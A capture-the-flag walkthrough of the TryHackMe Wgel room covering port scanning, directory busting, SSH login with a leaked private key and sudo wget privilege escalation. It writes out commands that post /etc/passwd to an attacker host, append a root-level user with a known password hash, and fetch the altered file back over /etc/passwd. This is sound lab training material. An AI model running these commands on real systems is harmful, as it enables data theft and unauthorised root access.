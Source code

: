 ```yaml
---
title: TryHackMe Wgel CTF [CHALLENGE]
date: 2024-03-13 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


Can you exfiltrate the root flag? This room have network service pentesting, linux privilege escalation, directory busting bruteforcing.

## **Reconnaissance**
---
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Nmap scan report for 10.10.120.57
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.48 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.120.57

80 → HTTP
- Apache httpd 2.4.18
- There is comment in the apache default web page source code that could perhaps a username.
- There is a user input in /sitemap/contact

22 → SSH
- Found id_rsa

## **Enumeration**
---
### 80 HTTP
We know that this contains the default apache web server page that shouts "It Works!". But let's not forget to inspect the source code to not miss things out!

![Desktop View](/assets/images/wgel-ctf/jessie.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.120.57 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.120.57/sitemap/]
/server-status        (Status: 403) [Size: 277]
```

Upon inspecting the `/sitemap` webpage, we discovered that it accepts user input. However, after conducting basic [command injection](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) and [directory traversal](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) tests, it did not return any errors, which might indicate that the webpage is vulnerable to exploitation.


![Desktop View](/assets/images/wgel-ctf/contact.png){: width="972" height="589" }

Let us try doing some file busting and see if we can find something interesting.

```bash
gobuster dir -u http://10.10.120.57/sitemap/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30 
```

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 21080]
/contact.html         (Status: 200) [Size: 10346]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 21080]
/about.html           (Status: 200) [Size: 12232]
/.html                (Status: 403) [Size: 277]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.120.57/sitemap/.ssh/]
/.DS_Store            (Status: 200) [Size: 14340]
/.htgroup             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/work.html            (Status: 200) [Size: 11428]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
```
So, why do we have an exposed private key in the first place?

![Desktop View](/assets/images/wgel-ctf/privkey.png){: width="972" height="589" }

Question is, can this key be used by the username we just found from the source code?

## **Gaining an Initial Foothold**
---

```text
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```
SSH private key file needs to be set with chmod 600 permissions to ensure that only the file owner can access the key while complying with SSH client security policies. Otherwise, it won't work.

![Desktop View](/assets/images/wgel-ctf/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/wgel-ctf/sudo.png){: width="972" height="589" }

The `wget` command is a versatile command-line tool that allows users to download one or several files at once from the internet or a server, utilizing various protocols such as HTTP, HTTPS, and FTP.

This implies that it is possible to download and modify the `/etc/passwd` file to insert a new user, thereby elevating our access privileges.

To start transferring the /etc/passwd to our attacking machine, we need to setup a typical netcat listener.

```bash
nc -lnvp <PORT> > <FILNAME>
```
![Desktop View](/assets/images/wgel-ctf/netcat.png){: width="972" height="589" }

On the target machine

```
sudo /usr/bin/wget --post-file=/etc/passwd <ATTACK_IP>:<PORT>
```
The `--post-file` flag enables wget to send the content of any file.

![Desktop View](/assets/images/wgel-ctf/wget.png){: width="972" height="589" }

From your attacking machine, you can view the extracted file and remove the http headers.

Once removed, generate a new hash password for a new root user in local machine.

```bash
openssl passwd -1 -salt thm password1
```

```bash
$1$thm$lQSjJL4ZZezfQn9UAZSqd1
```

Paste the generated hash to passwd.txt

```bash
echo 'jirho:$1$thm$lQSjJL4ZZezfQn9UAZSqd1:0:0:jirho:/home/jirho:/bin/bash' >> passwd.txt
```

From your attacker's machine working directory, setup a simple http server.

```bash
python3 -m http.server
```
On the target machine, get the file from your attacking machine

```bash
sudo /usr/bin/wget http://<ATTACK_MACHINE_IP>:<PORT>/passwd.txt -O /etc/passwd
```
Switch to the created user

```bash
su <USER>
password1 <-- enter the password you created from openssl
```
![Desktop View](/assets/images/wgel-ctf/root.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }

## **Materials/ References**
---

[Linux for Pentester: Wget Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

[Sudo Wget Privilege Escalation Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)



## **Take Away Concepts**
---

- Never skip viewing the source code of the website regardless if it is the default Apache webpage, as it might contain hidden comments with user credentials.
- Conduct thorough directory and file busting. Who knows? Maybe someone left their SSH private keys unattended.
- Understand how wget works to escalate your privileges. Took me about an hour doing some trial and error on how to add a root user to the /etc/passwd using wget
- Username can be brute force using SSH.